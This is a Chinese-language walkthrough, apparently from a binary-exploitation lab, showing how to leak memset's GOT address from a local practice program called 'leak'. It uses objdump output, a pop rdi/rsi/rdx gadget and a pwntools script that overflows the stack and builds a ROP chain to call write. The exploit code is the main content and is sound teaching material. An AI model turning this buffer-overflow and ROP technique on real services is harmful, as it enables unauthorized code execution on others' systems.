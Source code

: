 - leak出library方法的GOT值,在这个案例中,我们使用leak出memset()的地址
- 通过offset计算出libc的基地址,从而计算出system的地址
- 将函数GOT地址覆盖成system()的地址

首先我们架起服务
```
ncat -vc leak -kl 127.0.0.1 4000
```
查看memset的plt和got
```bash
objdump -d leak|less
0000000000400570 <memset@plt>:
  400570:       ff 25 ba 0a 20 00       jmpq   *0x200aba(%rip)        # 601030 <memset@GLIBC_2.2.5>
```
或者
```
objdump -R leak | grep memset
0000000000601030 R_X86_64_JUMP_SLOT  memset@GLIBC_2.2.5
```
查看write的plt
```
objdump -d leak|less
0000000000400540 <write@plt>:
  400540:       ff 25 d2 0a 20 00       jmpq   *0x200ad2(%rip)        # 601018 <write@GLIBC_2.2.5>
  400546:       68 00 00 00 00          pushq  $0x0
  40054b:       e9 e0 ff ff ff          jmpq   400530 <.plt>
```
其中write函数的参数意义如下

> fd:是文件描述符（输出到command line，就是1）
> buf:通常是一个字符串，需要写入的字符串
> count：是每次写入的字节数

如果我们读到 memset()’的GOT值为0xf7a9c920 . 我们可以覆盖vuln()的return address 为write@plt;  我们还需要使用ROP技术给RDI, RSI,RDX 指针正确的赋值.

helper方法中有这些赋值
```bash
gdb-peda$ disass helper
Dump of assembler code for function helper:
   0x000000000040069d <+0>:	push   rbp
   0x000000000040069e <+1>:	mov    rbp,rsp
   0x00000000004006a1 <+4>:	pop    rdi
   0x00000000004006a2 <+5>:	pop    rsi
   0x00000000004006a3 <+6>:	pop    rdx
   0x00000000004006a4 <+7>:	ret    
   0x00000000004006a5 <+8>:	pop    rbp
   0x00000000004006a6 <+9>:	ret    
```
leak出memset()'[GOT]的exp为
```python
from pwn import *

write_plt  = 0x400540            # address of write@plt
memset_got = 0x601030            # memset()'s GOT entry
pop3ret    = 0x4006a1            # gadget to pop rdi; pop rsi; pop rdx; ret

payload ="A"*168 + p64(pop3ret)+p64(1)+p64(memset_got)+p64(8)+p64(write_plt)
r = remote("127.0.0.1",4000)
raw_input('#')
print r.recvuntil('input: ')
r.sendline(payload)
print (r.recvline())
print '===='
memset=u64(r.recv(8))
print hex(memset)

```